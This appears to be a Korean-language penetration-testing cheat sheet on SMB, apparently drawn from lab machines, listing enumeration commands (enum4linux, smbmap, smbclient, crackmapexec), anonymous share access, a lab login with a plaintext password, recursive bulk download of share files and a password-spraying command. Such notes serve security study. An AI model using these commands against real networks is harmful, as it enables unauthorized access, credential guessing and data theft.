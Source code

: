 # 139,445 - Pentesting SMB



<pre class="language-bash"><code class="lang-bash"><strong>enum4linux -a 10.10.10.100 #-a : 모든 정보 가져오기 
</strong>smbmap -H 10.10.10.100 
smbclient //10.10.10.100/Replication -U ""%""  #-U는 사용자 인증 정보 지정 옵션 (유저 아이디 같은 것) but 여기서는 빈문자열 ""%""을 사용하여 익명으로 접속
smbmap -H 10.10.10.100 -r #공유가능한 폴더 재귀적으로 나열 
crackmapexec smb support.htb #호스트 이름과 도메인 표시 
crackmapexec smb support.htb --shares #공유가능한 폴더 모두 표시 
smbclient -N -L //support.htb #-N : 인증 없이, -L : 호스트의 공유 목록 표시
smbclient --user r.thompson //10.10.10.182/data rY4n5eva #smb data 접속
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget * #이러면 각 공유에 있는 모든 파일 다운 가능
#다운로드한 폴더에서 파일 찾는 명령어 
find smb-data-loot/ -type f

<strong>mount -t cifs //10.10.10.192/profiles$ /mnt #파일 마운트 명령어
</strong>#-t cifs: 마운트할 파일 시스템의 유형을 지정합니다. 여기서는 CIFS를 사용하므로 -t cifs로 지정합니다.
sudo umount ./blackfield/smb # unmount
</code></pre>

```bash
// SMB 명령어 
get <파일명> #파일 다운 명령어 

```

### 비밀번호 스프레이&#x20;

* 많은 사용자들에게 하나의 비밀번호를 대입하는 것&#x20;

```bash
crackmapexec smb 10.10.10.169 -u users -p 'Welcome123!' --continue-on-success

```
